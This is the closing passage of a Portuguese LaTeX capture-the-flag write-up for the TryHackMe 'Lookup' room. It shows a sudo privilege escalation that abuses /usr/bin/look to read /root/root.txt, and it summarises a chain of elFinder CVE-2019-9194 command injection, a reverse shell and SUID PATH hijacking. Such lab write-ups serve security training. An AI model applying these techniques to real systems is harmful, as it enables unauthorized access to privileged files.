  
\includegraphics[width=0.95\linewidth]{user_flag.png}
  \caption{Acesso interativo como \texttt{think} (Ubuntu 20.04) e leitura da
  \emph{flag} de usuário.}
  \label{fig:user_flag}
\end{figure}

%======================== 2.7 ESCALADA DE PRIVILEGIOS ==========================
\section{Escalada de Privilégios (think $\rightarrow$ root)}

\subsection{Enumeração local}
O \cmd{sudo -l} mostra que \texttt{think} pode executar \texttt{/usr/bin/look}
como \texttt{root}.

\begin{lstlisting}[style=output,caption={Politica de sudo de think.}]
User think may run the following commands on ip-<HOST>:
    (ALL) /usr/bin/look
\end{lstlisting}

\subsection{Leitura privilegiada via look e flag de root}
O \texttt{look} lê arquivos linha a linha; com um padrão vazio, imprime o arquivo
inteiro. Via \texttt{sudo}, isso permite ler arquivos de \texttt{root}
(técnica do GTFOBins).

\begin{lstlisting}[language=bash,caption={Leitura da flag de root pelo look.}]
LFILE=/root/root.txt
sudo look '' "$LFILE"        # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{root_flag.png}
  \caption{\cmd{sudo -l} com \texttt{/usr/bin/look} e leitura da \emph{flag} de
  \texttt{root} em \texttt{/root/root.txt}.}
  \label{fig:root_flag}
\end{figure}

%============================= 2.8 CONCLUSAO ====================================
\section{Conclusão}
O comprometimento encadeou falhas web e locais. A página de \emph{login} permitia
\textbf{enumeração de usuário} por diferença de resposta, revelando
\texttt{jose}; o \textbf{elFinder} desatualizado (\textbf{CVE-2019-9194})
permitiu \textbf{injeção de comando} via JPEG e \emph{reverse shell} como
\texttt{www-data}. A movimentação lateral para \texttt{think} explorou um
\textbf{binário SUID personalizado} (\texttt{pwm}) que confiava na saída de
\texttt{id}, contornado por \textbf{PATH hijacking} para extrair as senhas de
\texttt{think}. Por fim, uma regra de \texttt{sudo} sobre \texttt{/usr/bin/look}
permitiu \textbf{leitura privilegiada} da \emph{flag} de \texttt{root}. As falhas
centrais foram a \textbf{enumeração de usuário}, o \textbf{software
desatualizado}, o \textbf{SUID inseguro dependente do \texttt{PATH}} e uma
\textbf{configuração de \texttt{sudo} permissiva}.

%============================= 2.9 REFERENCIAS =================================
\section{Referências}
\begin{itemize}[leftmargin=1.5em]
  \item TryHackMe --- Sala \emph{Lookup} ---
        \url{https://tryhackme.com/room/lookup}
  \item CVE-2019-9194 --- \emph{elFinder PHP Connector Command Injection} ---
        \url{https://nvd.nist.gov/vuln/detail/CVE-2019-9194}
  \item Studio-42/elFinder --- \emph{issue \#2868 (resize/rotate RCE)} ---
        \url{https://github.com/Studio-42/elFinder/issues/2868}
  \item GTFOBins --- \texttt{look} ---
        \url{https://gtfobins.github.io/gtfobins/look/}
  \item HackTricks --- \emph{PATH hijacking / Privilege Escalation} ---
        \url{https://book.hacktricks.xyz/linux-hardening/privilege-escalation}
\end{itemize}

\end{document}
